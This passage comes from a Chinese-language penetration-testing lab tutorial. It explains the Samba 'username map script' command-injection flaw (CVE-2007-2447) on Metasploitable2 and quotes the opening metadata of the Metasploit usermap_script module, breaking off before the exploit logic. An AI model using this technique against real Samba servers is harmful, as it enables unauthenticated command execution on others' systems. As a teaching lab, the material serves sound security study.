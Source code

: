 ### 8.2 漏洞描述

Samba 本身是一个实现 Server Messages Block 协议提供跨平台文件共享服务的应用。

这个漏洞出现的前提是使用了 “username map script” 配置选项，这个选项不是默认的，但在 Metasploitable2 系统中是打开的。

漏洞出现在 Samba 处理 SAM 数据库更新用户口令的代码时，没有对代码进行严格的过滤，便把用户的所有输入信息直接传递给了 `/bin/sh` Shell 执行。从而当设定的用户名中有一些命令字符的时候，我们可以执行任意的系统命令。

### 8.3 攻击模块

我们在本次实验中使用的是 Metasploit 框架下的 Samba 攻击模块，该模块使用 Ruby 语言编写，源代码链接如下：

+ [exploit/multi/samba/usermap_script](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/samba/usermap_script.rb)

攻击模块的代码讲解，包含关键步骤的注释信息：

本次使用的攻击模块代码量很少，不懂 Ruby 也没有关系，只需要了解代码中的大概逻辑。如果对攻击模块的编写感兴趣，可以学习下 Ruby 再来深入研究模块编程细节。


```
...

# 引入 MSF 框架核心模块
require 'msf/core'

# 定义 MSF 模块类
class MetasploitModule < Msf::Exploit::Remote
  ...
  
  # 引入 Samba Client 
  include Msf::Exploit::Remote::SMB::Client

  ...

  # 初始化模块，包含模块名称，描述，作者，License，漏洞索引号，平台等信息
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Samba "username map script" Command Execution',
      'Description'    => %q{
          This module exploits a command execution vulerability in Samba
        versions 3.0.20 through 3.0.25rc3 when using the non-default
        "username map script" configuration option. By specifying a username
        containing shell meta characters, attackers can execute arbitrary
        commands.

        No authentication is needed to exploit this vulnerability since
        this option is used to map usernames prior to authentication!
      },
      'Author'         => [ 'jduck' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2007-2447' ],
          [ 'OSVDB', '34700' ],
          [ 'BID', '23972' ],
          [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
          [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
        ],
      'Platform'       => ['unix'],
      'Arch'           => ARCH_CMD,
      'Privileged'     => true, # root or nobody user
      'Payload'        =>
        {
          'Space'    => 1024,
          'DisableNops' => true,
```